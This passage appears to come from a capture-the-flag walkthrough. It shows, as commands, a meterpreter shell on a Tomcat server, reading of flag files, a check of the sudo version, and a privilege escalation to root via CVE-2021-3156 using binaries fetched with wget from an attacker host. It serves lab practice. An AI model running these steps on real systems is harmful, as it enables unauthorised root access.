     run
    # we get meterpreter shell
    # drop into shell
    shell

    id
    # we are 'tomcat' user

    # flag4
    cat /var/lib/tomcat9/flag4.txt

    # in barry SSH session
    sudo -V
    # 1.8.31

    cat /etc/lsb-release
    # Ubuntu 20.04.1
    # we can check for CVE-2021-3156 sudo exploit

    # fetch the statically compiled binaries from attacker machine
    wget --recursive --no-parent http://10.10.15.1:8000/CVE-2021-3156

    chmod +x sudo-hax-me-a-sandwich

    ./sudo-hax-me-a-sandwich 1
    # this works and we get root shell

    ls -la /root
    # flag5

    cat /root/flag5.txt
    ```
